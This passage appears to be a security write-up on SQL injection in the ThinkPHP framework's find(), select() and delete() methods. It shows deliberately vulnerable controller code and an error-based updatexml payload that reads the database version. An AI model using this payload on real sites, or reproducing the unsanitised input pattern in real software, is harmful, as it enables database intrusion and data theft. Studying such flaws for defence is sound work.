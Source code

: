 ```php
        $sql .=   $this->parseComment(!empty($options['comment'])?$options['comment']:'');
        return $this->execute($sql,!empty($options['fetch_sql']) ? true : false);
    }
```

1. find()

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $User = M("user"); // 实例化User对象
        $name = I('GET.name');
        $User->find($name);
    }
}
```

`name[where]=updatexml(1,concat(0x7e,(select @@version),0x7e),1)%23`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203201509038.png)

2. select()

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $User = M("user"); // 实例化User对象
        $name = I('GET.name');
        $User->select($name);
    }
}
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203201511956.png)

3. delete()

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $User = M("user"); // 实例化User对象
        $name = I('GET.name');
        $User->delete($name);
    }
}
```
